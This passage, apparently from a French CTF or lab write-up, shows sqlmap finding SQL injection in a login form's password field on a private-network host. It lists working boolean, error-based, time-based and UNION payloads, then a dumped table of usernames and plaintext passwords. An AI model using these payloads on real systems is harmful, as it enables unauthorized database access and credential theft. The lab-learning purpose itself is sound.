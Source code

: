 ```shellsession
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: user_name=alice&password=Letm3in' OR NOT 1015=1015#&Submit_button=Submit

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: user_name=alice&password=Letm3in' OR ROW(9200,1077)>(SELECT COUNT(*),CONCAT(0x71716a7071,(SELECT (ELT(9200=9200,1))),0x71786b7171,FLOOR(RAND(0)*2))x FROM (SELECT 4202 UNION SELECT 2792 UNION SELECT 7451 UNION SELECT 1936)a GROUP BY x)-- zhJF&Submit_button=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: user_name=alice&password=Letm3in' OR SLEEP(5)-- FSWk&Submit_button=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: user_name=alice&password=Letm3in' UNION ALL SELECT CONCAT(0x71716a7071,0x7942424a716a444d506c6a614248675a597271517156766a6c4479574858536971594d5749555a54,0x71786b7171),NULL,NULL,NULL#&Submit_button=Submit
---
[16:15:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[16:15:27] [INFO] fetched data logged to text files under '/home/sirius/.sqlmap/output/192.168.242.135'

[*] ending @ 16:15:27 /2022-12-04/
```

`sqlmap` a bien détecté la vulnérabilité en mode error-based ainsi que l'utilisation possible de `UNION`. On peut relancer en lui indiquant de dumper (après une rapide énumération) la table qui nous intéresse en rajoutant les options `-D creds -T accounts --dump` :

```
Database: creds                                                                                                                                                                                                  
Table: accounts
[11 entries]
+-----+--------+------------+----------------------+
| cid | upload | username   | password             |
+-----+--------+------------+----------------------+
| 1   | 0      | alamo      | Ih%40cK3dM1cR05oF7   |
| 2   | 1      | etenenbaum | P3n7%40g0n0wN3d      |
| 3   | 1      | gmckinnon  | d15cL0suR3Pr0J3c7    |
| 4   | 1      | hreiser    | Ik1Ll3dNiN%40r315er  |
| 5   | 1      | jdraper    | p1%40yIngW17hPh0n35  |
| 6   | 1      | jjames     | %40rR35t3D%40716     |
| 7   | 1      | jljohansen | m%40k1nGb0o7L3g5     |
| 8   | 1      | kpoulsen   | wH%407ar37H3Fed5D01n |
| 9   | 0      | ltorvalds  | f%407H3r0FL1nUX      |
| 10  | 1      | mrbutler   | n%405aHaSw0rM5       |
| 11  | 1      | rtmorris   | Myd%40d51N7h3NSA     |
+-----+--------+------------+----------------------+
```
